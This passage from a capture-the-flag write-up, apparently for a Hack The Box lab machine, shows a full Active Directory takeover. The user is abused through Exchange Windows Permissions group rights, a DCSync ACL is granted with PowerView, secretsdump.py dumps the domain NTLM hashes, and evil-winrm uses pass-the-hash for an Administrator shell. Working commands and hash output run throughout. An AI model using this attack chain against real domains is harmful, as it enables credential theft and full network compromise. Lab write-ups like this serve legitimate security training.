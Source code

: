 The user `i0n1c` was successfully confirmed as a member of the `Exchange Windows Permissions` group, granting the necessary permissions to modify the domain's ACL.
```bash
*Evil-WinRM* PS C:\temp> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
i0n1c
The command completed successfully

```

Using PowerView and the credentials for `i0n1c`, the `DCSync` right was successfully granted to the user `i0n1c` on the domain root, enabling the replication of all domain password data.
```bash
*Evil-WinRM* PS C:\temp> $SecPassword = ConvertTo-SecureString 'HackedForest1' -AsPlainText -Force
*Evil-WinRM* PS C:\temp> $Cred = New-Object System.Management.Automation.PSCredential('htb\i0n1c', $SecPassword)
*Evil-WinRM* PS C:\temp> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity i0n1c -Rights DCSync
```
The `DCSync` attack was executed using `secretsdump.py` with the `i0n1c` credentials. All domain hashes, including the Administrator's NTLM hash, were successfully dumped to `secretsdumphash.txt`.

```bash
secretsdump.py htb.local/i0n1c:HackedForest1@10.129.33.34 > secretsdumphash.txt
```

The `secretsdump.py` output confirmed a full domain compromise. The NTLM hash for the `Administrator` account (`32693b11e6aa90eb43d32c72a07ceea6`) was successfully extracted.

```output
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::

```

A pass-the-hash attack was performed using the Administrator's NTLM hash to gain a privileged shell on the Domain Controller via Evil-WinRM.

```bash
evil-winrm -i 10.129.33.34 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

The root flag `844dcccd69076217093e7487555e0de8` was successfully captured. The assessment concluded with full domain administrator compromise, demonstrating a complete attack chain from anonymous enumeration to complete domain control.

```bash
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
844dcccd69076217093e7487555e0de8

```
